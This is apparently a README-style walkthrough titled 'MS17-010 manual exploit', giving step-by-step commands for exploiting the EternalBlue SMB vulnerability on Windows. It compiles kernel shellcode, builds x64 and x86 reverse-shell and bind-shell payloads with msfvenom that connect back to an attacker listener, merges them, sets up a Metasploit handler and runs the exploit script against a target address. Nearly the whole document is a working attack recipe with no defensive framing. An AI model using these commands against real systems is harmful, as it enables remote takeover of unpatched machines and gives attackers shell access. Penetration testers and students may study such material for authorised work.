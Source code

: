 # MS17-010 manual exploit

Original Source  https://github.com/worawit/MS17-010

## Creating payload for X64
### Compiling x64 kernel shellcode
    nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
### Reverse shell
    msfvenom -p windows/x64/shell/reverse_tcp EXITFUNC=thread lhost=192.168.1.10 lport=4443 -f raw -o sc_x64_msf.bin
### Bind shell
    msfvenom -p windows/x64/shell/bind_tcp EXITFUNC=thread LPORT=4443 -f raw -o sc_x64_msf.bin
### Combine both nasm output and our payload
    cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
## Creating payload for X86
### Compiling x86 kernel shellcode
    nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin
### Reverse shell
    msfvenom -p windows/shell/reverse_tcp EXITFUNC=thread LHOST=192.168.1.100 LPORT=4444 -f raw -o sc_x86_msf.bin
### Bind shell
    msfvenom -p windows/shell/bind_tcp EXITFUNC=thread LPORT=4444 -f raw -o sc_x86_msf.bin

## Combine both nasm output and our payload    
    cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin

## Listener

    msfconsole

    use exploit/multi/handler
    set payload <payload you specified with msfvenom>
    set lport 4443
    set rhost 192.168.1.100
    exploit -j

    Do the same steps for port 4444
    So two listener will be running at same time
## Combine both x86 and x64 payload (if we don't know the architecture of the attacking machine)
    python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
## Run the code
    python eternalblue_exploit7.py 192.168.1.100 sc_all.bin
